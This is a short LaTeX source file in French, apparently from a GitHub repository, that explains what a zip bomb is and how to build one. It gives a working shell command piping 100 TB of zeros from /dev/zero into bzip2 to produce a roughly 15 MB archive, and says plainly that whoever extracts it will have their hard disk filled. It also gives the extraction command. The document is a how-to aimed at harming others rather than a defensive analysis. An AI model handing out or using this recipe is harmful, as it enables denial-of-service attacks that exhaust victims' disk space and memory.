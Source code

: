 \documentclass[a4paper, 12pt]{article}
\begin{document}
   \section{Bombe zip}
   		\subsection{Qu'est-ce qu'une zip bomb ?}
         Une zip bomb est un fichier compressé de quelques MO qui contient énormément de données présente sous formes d'octets, ce qui va amener à saturer le disque dur. Le système va manquer de mémoire et se bloquer dans le processus.
		\subsection{Comment faire une zip bomb ?}
		\begin{flushleft}
			\noindent Entrez cette commande dans le terminal. 
			\item Cela compresse 100 To de données dans un fichier d’environ 14,9 Mo. Ainsi, lorsque quelqu’un essaie de l’extraire, il devrait s’étendre à plus de 1300000x sa taille et leur disque dur devrait être rempli de caractères nuls!
		
			\begin{lstlisting}
dd if=/dev/zero bs=10G count=10000 | bzip2 -c > zipBomb.bz2
        	\end{lstlisting}
        	\item Il suffit alors d'extraire le fichier via la commande suivante : 
        	\begin{lstlisting}
bzip2 -d zipBomb.bz2
        	\end{lstlisting}
        \end{flushleft}
	
	
\end{document}
